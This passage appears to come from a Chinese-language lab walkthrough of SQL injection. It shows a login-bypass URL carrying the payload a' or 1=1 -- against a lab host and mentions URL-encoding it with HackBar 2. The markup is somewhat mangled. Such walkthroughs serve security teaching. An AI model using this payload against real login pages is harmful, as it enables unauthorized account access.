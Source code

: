 ****![](img/455af003bd371791684cab4673aa3731.png)****

****通过直接访问以下 URL，可以轻松绕过登录和客户端验证:****

```
**[http://10.10.231.136:5000/sesqli3/login?profileID=](http://10.10.231.136:5000/sesqli3/login?profileID=-1')a' or 1=1 --a' or 1=1 --&password=a**
```

****浏览器会自动为我们进行 URL 编码。因为 HTTP 协议不支持请求中的所有字符，所以需要 Urlencoding。进行 urlencoded 时，URL 如下所示:****

****使用 **HackBar 2 扩展**将您的有效负载转换成 urlencode****

****![](img/154f7183ea1825ec7c3bba45fa66ff07.png)********![](img/99598492b5faba5d7ba21754a4557ba2.png)****